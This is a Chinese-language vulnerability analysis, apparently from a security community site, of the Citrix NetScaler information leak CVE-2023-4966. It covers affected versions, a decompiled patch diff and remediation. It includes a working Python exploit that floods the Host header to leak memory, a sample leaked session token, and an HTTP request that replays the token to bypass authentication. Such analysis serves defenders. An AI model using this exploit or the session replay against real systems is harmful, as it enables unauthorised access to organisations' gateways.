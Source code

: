 

# CVE-2023-4966 Citrix NetScaler ADC & Gateway 信息泄露漏洞 - 先知社区

CVE-2023-4966 Citrix NetScaler ADC & Gateway 信息泄露漏洞

- - -

## 一、漏洞概述

漏洞编号：CVE-2023-4966

影响的版本：

NetScaler ADC 和 NetScaler Gateway 14.1 < 14.1-8.50

NetScaler ADC 和 NetScaler Gateway 13.1 < 13.1-49.15

NetScaler ADC 和 NetScaler Gateway 13.0 < 13.0-92.19

NetScaler ADC 13.1-FIPS < 13.1-37.164

NetScaler ADC 12.1-FIPS < 12.1-55.300

NetScaler ADC 12.1-NDcPP < 12.1-55.300

影响厂商：美国思杰（Citrix）公司

厂商官网地址：[https://www.citrix.com/](https://www.citrix.com/)

漏洞说明：NetScaler ADC 和 NetScaler Gateway 是美国思杰（Citrix）公司的产品。Citrix Gateway 是一套安全的远程接入解决方案，可提供应用级和数据级管控功能，以实现用户从任何地点远程访问应用和数据；Citrix ADC 是一个全面的应用程序交付和负载均衡解决方案，用于实现应用程序安全性、整体可见性和可用性。在 Citrix 设备设置为网关（VPN 虚拟服务器、ICA 代理、CVPN、RDP 代理）或 AAA 虚拟服务器的情况下，可以通过访问/oauth/idp/.well-known/openid-configuration 路由并往 HOST 字段发送大量数据从而泄露缓冲区信息，其中可能包含 session cookie 相关信息，攻击者可以借助该信息无需经过身份验证实现访问。

## 二、漏洞分析详情

我们选择 NetScaler Gateway 的 13.1-49.15 和 13.1-48.47 两个版本进行分析，主要关注其 /netscaler/nsppe 二进制文件的相关补丁，该文件是 NetScaler 数据包处理引擎，它包含完整的 TCP/IP 网络堆栈以及多个 HTTP 服务。

通过分析，最终确定与漏洞相关的函数为：ns\_aaa\_oauth\_send\_openid\_config 和 ns\_aaa\_oauthrp\_send\_openid\_config

更新前后代码的主要差异如下：

更新前：

```bash
iVar3 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
authv2_json_resp = 1;
iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,iVar3);
```

更新后：

```bash
uVar7 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
uVar4 = 0x20;
if (uVar7 < 0x20000) {
    authv2_json_resp = 1;
    iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,uVar7);
    ...
}
```

该代码段落在访问 /oauth/idp/.well-known/openid-configuration路由的时候将被调用，其逻辑是通过调用 snprintf() 函数构造一个 json 数据并通过 ns\_vpn\_send\_response() 函数形成 http response 返回给用户，这个 json 数据中拼接了来自 http 请求的 **HOST 字段的数据**

正常访问 /oauth/idp/.well-known/openid-configuration路由的返回界面如下：

[![](assets/1699929042-03faa7de16586a595f2c64a8ae0752b3.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231113170151-493450b2-8203-1.jpg)

snprintf() 函数虽然通过第二个参数限制了 print\_temp\_rule 对应的字符串的最大长度，但是 snprintf() 函数的返回值却是 完成 format 之后预期的 字符串的长度，也就是说即使第二个参数为 0x20000，snprintf() 函数的返回值可以大于 0x20000

ns\_vpn\_send\_response() 函数的第四个参数决定了读取的内存大小，这就意味着 紧跟在 print\_temp\_rule 变量之后的缓冲区中的信息能够被带入 response 当中

从上面的分析可以想到，攻击者能够在访问 /oauth/idp/.well-known/openid-configuration路由时往 Host 字段插入大量数据，从而使得返回的 response 中带上缓冲区信息，导致信息泄露。

## 三、漏洞利用脚本

```bash
import requests
from urllib.parse import urljoin

url = "https://ip:port"

headers = {"Host": "a"*24578}
try:
    r = requests.get(urljoin(url,"/oauth/idp/.well-known/openid-configuration"), headers=headers, verify=False,timeout=10)
    print(r.status_code)
    if len(r.content) > 0:
        with open("resp.txt","wb") as f:
            f.write(r.content)
except Exception as e:
    print(e)
```

在 response 中可能会包含 长度为 65 或 32 的 session cookie，比如：

```bash
5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
```

[![](assets/1699929042-8d6c0b2afd1c039f7d9a4ec903770b24.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113120657-164da6cc-81da-1.png)

攻击者可以借助该信息无需经过身份验证实现系统的访问：

```bash
GET /logon/LogonPoint/Authentication/GetUserName HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: NSC_AAAC=5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

​

[![](assets/1699929042-27d7190724d355b3744add8a5818ec5e.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231113170344-8c2c4af0-8203-1.jpg)

## 四、漏洞影响

NetScaler ADC 和 NetScaler Gateway 14.1 < 14.1-8.50

NetScaler ADC 和 NetScaler Gateway 13.1 < 13.1-49.15

NetScaler ADC 和 NetScaler Gateway 13.0 < 13.0-92.19

NetScaler ADC 13.1-FIPS < 13.1-37.164

NetScaler ADC 12.1-FIPS < 12.1-55.300

NetScaler ADC 12.1-NDcPP < 12.1-55.300

**前提条件：**为了利用该漏洞，Citrix 设备必须设置为网关（VPN 虚拟服务器、ICA 代理、CVPN、RDP 代理）或 AAA 虚拟服务器

## 五、修复方案

官方最新版本已修复此漏洞。

下载地址为：

[https://www.citrix.com/downloads/citrix-adc/](https://www.citrix.com/downloads/citrix-adc/)

\[[https://www.citrix.com/downloads/citrix-gatewa](https://www.citrix.com/downloads/citrix-gatewa)
